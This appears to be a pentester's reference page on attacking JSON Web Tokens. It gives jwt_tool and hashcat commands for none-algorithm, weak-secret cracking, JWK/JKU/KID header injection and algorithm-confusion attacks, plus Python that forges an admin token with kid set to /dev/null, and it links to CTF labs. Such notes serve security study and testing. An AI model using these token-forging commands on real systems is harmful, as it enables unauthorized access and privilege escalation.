# JSON Web Token (JWT)

[![hacking_jwt](../../../../_badges/hacktricks/hacking_jwt.svg)](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens)
[![json_web_token](../../../../_badges/poat/json_web_token.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON%20Web%20Token)
[![marketplace](../../../../_badges/thm-p/marketplace.svg)](https://tryhackme.com/r/room/marketplace)
[![jwt](../../../../_badges/ps-course/jwt.svg)](https://portswigger.net/web-security/jwt)

<div class="row row-cols-lg-2"><div>

JSON Web Token (JWT) are used to represent signed data. They are commonly used in for authentication and authorization.

The format is: `<algo>.<data>.<signature>`. Each part is base64 encoded, so the final string is URL-safe while it can be easily decoded.

The data is signed using a secret key. If the secret key is compromised, everyone can sign messages 🔏.

The signature is used to detect if data was tampered with.
</div><div>

They can be transferred and found in:

* 📚 Headers (`Authorization: Bearer <JWT>`)
* 🍪 Cookies
* 📄 URL Parameters
* 💼 Request Body
* ...

📚 JWT is a specification, JWS <small>(mostly)</small>/JWE are implementations.
</div></div>

<hr class="sep-both">

## JWT Tools

<div class="row row-cols-lg-2"><div>

#### jwt-tools (Python)

You can use [jwt-tools](https://github.com/ticarpi/jwt_tool) <small>(5.4k ⭐)</small> to attack JWT:

```shell!
$ git clone https://github.com/ticarpi/jwt_tool.git $HOME/tools/jwt_tool
$ chmod +x $HOME/tools/jwt_tool/jwt_tool.py
$ ln -s $HOME/tools/jwt_tool/jwt_tool.py $HOME/.local/bin/jwt_tool
$ jwt_tool -h
```

```ps
$ jwt_tool 'jwt'             # decode
$ jwt_tool 'jwt' -T          # encode
$ jwt_tool 'jwt' -I -pc claim -pv value
```
</div><div>

#### jwt.io (Website)

You can also use [jwt.io](https://jwt.io/).

<br>

#### JWT wordlists

A common handy wordlist is [jwt-secrets](https://github.com/wallarm/jwt-secrets).
</div></div>

<hr class="sep-both">

## Common JWT Attacks

<div class="row row-cols-lg-2"><div>

#### JWT — Unverified Signature

It's possible for the signature to not be checked at all by the server.

<br>

#### JWT — Null Signature

[![jwt_introduction](../../../../_badges/rootme/web_server/jwt_introduction.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Introduction)

If the signature algorithm is not verified, you may set it to 'none,' and remove the signature that is not required anymore.

```ps
$ jwt_tool 'jwt' -T -X a     # attack 'algo=none'
```

<br>

#### JWT — Weak Secret Key

[![jwt_weak_secret](../../../../_badges/rootme/web_server/jwt_weak_secret.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Weak-secret)

The secret key may be weak and brute forced:

```ps
$ jwt_tool 'jwt' -T -p "key" # use secret key
$ jwt_tool 'jwt' -C -d ./jwt.secrets.list # crack key
```

```ps
$ hashcat -m 16500 hash ./jwt.secrets.list
```

<br>

#### JWT — JWK Header Injection

[![jwt_header_injection](../../../../_badges/rootme/web_server/jwt_header_injection.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Header-Injection)

An application may use the `jwk` header to represent the RSA key used to sign the data. We may be able to inject our own RSA key.

```ps
$ jwt_tool 'jwt' -T -X i     # attack 'jwk header injection'
$ jwt_tool 'jwt' -T -X i -hc kid -hv jwt_tool     # with kid
```
</div><div>

#### JWT — JKU Header Injection

[![jwt_unsecure_key_handling](../../../../_badges/rootme/web_server/jwt_unsecure_key_handling.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Unsecure-Key-Handling)

The `jku` header contains a URL or a filename used to fetch a key.

* When a asymmetric algorithm such as RS is used:

```shell!
$ cat $HOME/.jwt_tool/jwttool_custom_jwks.json # upload to URL as jwks.json
$ jwt_tool -X s -ju "URL/jwks.json" -I -hc kid -hv jwt_tool -pc claim -pv value
```

📚 You may check: `/jwks.json`, `/.well-known/jwks.json`, etc. Refer to [SSRF](/cybersecurity/red-team/s3.exploitation/vulns/web/ssrf.md) for insight <small>(filtering, attacks, etc.)</small> and setting up a [grabber](/cybersecurity/red-team/_knowledge/topics/request_grabber.md).

<br>

#### JWT — KID Header Injection

[![jwt_header_injection](../../../../_badges/rootme/web_server/jwt_header_injection.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Header-Injection)
[![jwt_unsecure_key_handling](../../../../_badges/rootme/web_server/jwt_unsecure_key_handling.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Unsecure-Key-Handling)
[![jwt_public_key](../../../../_badges/rootme/web_server/jwt_public_key.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Public-key)
[![jwt_unsecure_file_signature](../../../../_badges/rootme/web_server/jwt_unsecure_file_signature.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Unsecure-File-Signature)

The kid header may be present in two scenarios. The first one is to define which key file contains the secret. The second usage is to determines which of the keys in the `jku` we should use.

```shell!
$ # The file "/dev/null" is empty so -p is ""
$ jwt_tool "" -I -hc kid -hv "/dev/null" -S hs512 -p "" -pc claim -pv value
```

➡️ Refer to [Path Traversal](/cybersecurity/red-team/s3.exploitation/vulns/web/path_traversal.md) and my [cheatsheet](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/arbitrary_file_access.md) for more notes.

<br>

#### JWT — Algorithm Confusion Attack

[![jwt_public_key](../../../../_badges/rootme/web_server/jwt_public_key.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Public-key)

When using RS256 algorithm, JWT uses the private key to sign the JWK and the public key to verify integrity. We may be able to perform a downgrade attack to HS256 and only use a public key for both.

```ps
$ jwt_tool 'jwt' -S hs256 -k public.key -T
```

You can compute the public key if you have two messages:

```ps
$ docker run -it ttervoort/jws2pubkey "JWT1" "JWT2"
```
</div></div>

<hr class="sep-both">

## Python JWT

<div class="row row-cols-lg-2"><div>

The [pyjwt](https://github.com/jpadilla/pyjwt) <small>(5.1k ⭐)</small> library can be used to manipulate JWT in Python. There are two unmaintained alternatives which are:

* [python-jwt by GehirnInc](https://github.com/GehirnInc/python-jwt) <small>(0.1k ⭐, 2022 🪦)</small>
* [python-jwt by D. Halls](https://github.com/davedoesdev/python-jwt) <small>(0.2k ⭐, 2023 🪦)</small> — has two CVEs

```py
headers = {
    'kid': '/dev/null'
}
payload = {
    'role': 'admin',
    'iat': int(datetime.datetime.now(datetime.UTC).timestamp())
}
```
</div><div>

To install it:

```shell!
$ pip install pyjwt
```

To generate a JWT:

```py
import jwt
token = jwt.encode(payload, '', algorithm='HS512', headers=headers)
```

To decode a JWT:

```py
import jwt
payload = jwt.decode(token, '', algorithms=['HS512'])
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [PortSwigger JWT](https://portswigger.net/web-security/jwt)
* [jwtcrack/jwt2john](https://github.com/Sjord/jwtcrack)
</div><div>
</div></div>